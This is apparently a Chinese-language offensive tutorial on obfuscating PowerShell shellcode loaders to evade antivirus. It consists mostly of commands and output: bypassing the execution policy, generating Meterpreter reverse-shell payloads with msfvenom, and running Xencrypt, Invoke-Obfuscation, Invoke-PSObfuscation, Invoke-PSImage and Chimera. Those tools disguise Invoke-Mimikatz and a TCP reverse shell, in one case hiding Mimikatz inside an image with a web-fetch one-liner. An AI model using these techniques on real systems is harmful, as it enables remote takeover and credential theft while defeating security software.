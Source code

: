# POWERSHELL混淆免杀shellcodeloader

00 

可以在PowerShell中执行命令来查看和设置执行策略，如果需要执行Powershell脚本程序，需要使用管理员权限将Restricted改为Unrestricted。

```
Get-ExecutionPolicy 
Set-ExecutionPolicy Unrestricted
powershell.exe -ExecutionPolicy Bypass -File .\test1.ps1
```

payload 生成

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.121 lport=4444 --arch x64 --platform wiindows -f psh-reflection -o 4444.ps1
```

1.XencryptX 加密  (  项目： [the-xentropy/xencrypt: A PowerShell script anti-virus evasion tool (github.com)](https://github.com/the-xentropy/xencrypt)

```
Import-Module ./xencrypt.ps1
Invoke-Xencrypt -InFile invoke-mimikatz.ps1 -OutFile xenmimi.ps1
迭代次数
Invoke-Xencrypt -InFile invoke-mimikatz.ps1 -OutFile xenmimi.ps1 -Iterations 100
```

2.[Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation) powershell混淆免杀

```
Import-Module ./Invoke-Obfuscation.psd1
Invoke-Obfuscation

set scriptpath +文件位置
选择混淆方式为 TOKEN\ALL
保存混淆之后的脚本
out out.ps1
```

3.ps2exe 把powershell转化成exe去执行

4.[Invoke-PSObfuscation](https://github.com/gh0x0st/Invoke-PSObfuscation) powershell混淆免杀

```
┌──(tristram㉿kali)-[~]
└─$ pwsh 
PowerShell 7.1.3
Copyright (c) Microsoft Corporation.

https://aka.ms/powershell
Type 'help' to get help.

PS /home/kali> msfvenom -p windows/meterpreter/reverse_https LHOST=127.0.0.1 LPORT=443 EXITFUNC=thread -f ps1 -o meterpreter.ps1
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 686 bytes
Final size of ps1 file: 3385 bytes
Saved as: meterpreter.ps1
PS /home/kali> . ./Invoke-PSObfuscation.ps1                                                                                        
PS /home/kali> Invoke-PSObfuscation -Path ./meterpreter.ps1 -Integers -Variables -OutFile o-meterpreter.ps1                     

     >> Layer 0 Obfuscation
     >> https://github.com/gh0x0st

[*] Obfuscating integers
[*] Obfuscating variables
[*] Writing payload to o-meterpreter.ps1
[*] Done
```

5.[Invoke-PSImage](https://github.com/peewpw/Invoke-PSImage)

Create an image with the script "Invoke-Mimikatz.ps1" embeded in it and output a oneliner to execute from disk:

```
PS>Import-Module .\Invoke-PSImage.ps1
PS>Invoke-PSImage -Script .\Invoke-Mimikatz.ps1 -Out .\evil-kiwi.png -Image .\kiwi.jpg
   [Oneliner to execute from a file]
```



Create an image with the script "Invoke-Mimikatz.ps1" embeded in it and output a oneliner to execute from the web (you still have to host the image and edit the URL):

```
PS>Import-Module .\Invoke-PSImage.ps1
PS>Invoke-PSImage -Script .\Invoke-Mimikatz.ps1 -Out .\evil-kiwi.png -Image .\kiwi.jpg -WebRequest
   [Oneliner to execute from the web]
```

6.**[Chimera](https://github.com/tokyoneon/Chimera)**

  Clone the repository. Tested in Kali v2020.3.

```
sudo apt-get update && sudo apt-get install -Vy sed xxd libc-bin curl jq perl gawk grep coreutils git
sudo git clone https://github.com/tokyoneon/chimera /opt/chimera
sudo chown $USER:$USER -R /opt/chimera/; cd /opt/chimera/
sudo chmod +x chimera.sh; ./chimera.sh --help
```

  Basic usage.

```
./chimera.sh -f shells/Invoke-PowerShellTcp.ps1 -l 3 -o /tmp/chimera.ps1 -v -t powershell,windows,\
copyright -c -i -h -s length,get-location,ascii,stop,close,getstream -b new-object,reverse,\
invoke-expression,out-string,write-error -j -g -k -r -p
```

Review the [usage guide](https://github.com/tokyoneon/Chimera/blob/master/USAGE.md) and [write-up](https://null-byte.com/bypass-amsi-0333967/) for more examples and screenshots.